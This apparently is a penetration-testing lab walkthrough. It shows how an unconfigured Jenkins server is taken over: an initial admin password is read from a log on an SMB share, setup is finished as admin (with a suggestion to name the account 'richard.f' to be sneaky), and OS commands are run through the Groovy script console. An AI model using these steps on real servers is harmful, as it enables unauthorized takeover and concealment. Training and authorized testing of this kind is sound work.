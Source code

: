 +++
title = "Insecure Jenkins"
weight = 3
+++

## 1. First impressions
This Jenkins server appears to have been installed but never fully configured.
This is acctually common with software that ships with other software.

![](./jenkins1.png)

The web console tells us that there is an admin password written somewhere in a directory we don't have access to. 
However, it also mentions the file is written to the Jenkins log.  

## 2. Accessing the Jenkins dir from the SMB share
Connect back to the SMB share we accessed previously.  Take a look inside the Jenkins directory.
![](./jenkins2.png)

There appear to be three files with the *.log* extention.  Download them both.  Looking inside the err log file we can see 
the one-time admin password.

##### jenkins.err.log
```
2023-03-30 15:27:34.096+0000 [id=1]     WARNING o.e.j.s.handler.ContextHandler#setContextPath: Empty contextPath
2023-03-30 15:27:34.437+0000 [id=1]     INFO    org.eclipse.jetty.server.Server#doStart: jetty-10.0.13; built: 2022-12-07T20:13:20.134Z; git: 1c2636ea05c0ca8de1ffd6ca7f3a98ac084c766d; jvm 17.0.6+9-LTS-190
2023-03-30 15:27:38.030+0000 [id=1]     INFO    o.e.j.w.StandardDescriptorProcessor#visitServlet: NO JSP Support for /, did not find org.eclipse.jetty.jsp.JettyJspServlet
2023-03-30 15:27:38.499+0000 [id=1]     INFO    o.e.j.s.s.DefaultSessionIdManager#doStart: Session workerName=node0
2023-03-30 15:27:41.307+0000 [id=1]     INFO    hudson.WebAppMain#contextInitialized: Jenkins home directory: C:\ProgramData\Jenkins\.jenkins found at: EnvVars.masterEnvVars.get("JENKINS_HOME")
2023-03-30 15:27:41.725+0000 [id=1]     INFO    o.e.j.s.handler.ContextHandler#doStart: Started w.@31c269fd{Jenkins v2.387.1,/,file:///C:/ProgramData/Jenkins/war/,AVAILABLE}{C:\ProgramData\Jenkins\war}
2023-03-30 15:27:41.803+0000 [id=1]     INFO    o.e.j.server.AbstractConnector#doStart: Started ServerConnector@6591f517{HTTP/1.1, (http/1.1)}{0.0.0.0:8080}
2023-03-30 15:27:41.865+0000 [id=1]     INFO    org.eclipse.jetty.server.Server#doStart: Started Server@55ca8de8{STARTING}[10.0.13,sto=0] @12336ms
2023-03-30 15:27:41.881+0000 [id=25]    INFO    winstone.Logger#logInternal: Winstone Servlet Engine running: controlPort=disabled
2023-03-30 15:27:42.801+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Started initialization
2023-03-30 15:27:43.068+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Listed all plugins
2023-03-30 15:27:46.271+0000 [id=30]    INFO    jenkins.InitReactorRunner$1#onAttained: Prepared all plugins
2023-03-30 15:27:46.286+0000 [id=30]    INFO    jenkins.InitReactorRunner$1#onAttained: Started all plugins
2023-03-30 15:27:46.328+0000 [id=32]    INFO    jenkins.InitReactorRunner$1#onAttained: Augmented all extensions2023-03-30 15:27:47.506+0000 [id=31]    INFO    jenkins.InitReactorRunner$1#onAttained: System config loaded
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: System config adapted
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Loaded all jobs
2023-03-30 15:27:47.506+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Configuration for all jobs updated
2023-03-30 15:27:47.584+0000 [id=31]    INFO    jenkins.install.SetupWizard#init: 

*************************************************************
*************************************************************
*************************************************************

Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

f9d8aa****************321f63c6fa

This may also be found at: C:\ProgramData\Jenkins\.jenkins\secrets\initialAdminPassword

*************************************************************
*************************************************************
*************************************************************

2023-03-30 15:28:08.935+0000 [id=33]    INFO    jenkins.InitReactorRunner$1#onAttained: Completed initialization
2023-03-30 15:28:08.983+0000 [id=24]    INFO    hudson.lifecycle.Lifecycle#onReady: Jenkins is fully up and running
```

Here we can see the temporary admin password just as expected *f9d8aa\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*321f63c6fa*.

## 3. Finish setting up with the admin password
> :WARNING: *You should have full resolution screenshots with timestamps of every action you take to setup this Jenkins server*
>

* Enter the temporary admin password and click on the "**Continue**" button

![](./jenkins3.png)

* Click on the big "**Install suggested plugins**" button
![](./jenkins4.png)

* Once the installation wizard finishes select "**Skip and continue as admin**".  Alternitively you could create an admin user, maybe name it richard.f if you're trying to be sneaky.
![](./jenkins5.png)

* Nothing to do here just click on the "**Save and Finish**" button.
![](./jenkins6.png)

* Contratulations you are now the Jenkins administrator and this server is ready for use.  Click on "**Start using Jenkins**".
![](./jenkins7.png)

> :WARNING: *You should have full resolution screenshots with timestamps of every action you took to setup this Jenkins server*

Now that we have admin access to the Jenkins web console we can ensure that the script console is turned on. 
This will allow us to command the underlying operating system using whatever permissions this Jenkins server is currently 
running with.


## 4. Groovyscript OS command execution
With the script console enabled (it's enabled by default), executing OS commands is trivial using Groovyscript

* Navigate to **/script** and run the following Groovyscript snippet.

```Java
def sout = new StringBuffer(), serr = new StringBuffer();
def proc = 'cmd.exe /c dir'.execute();
proc.consumeProcessOutput(sout, serr);
proc.waitForOrKill(1000);
println "out> $sout err> $serr"
```
![](./jenkins8.png)
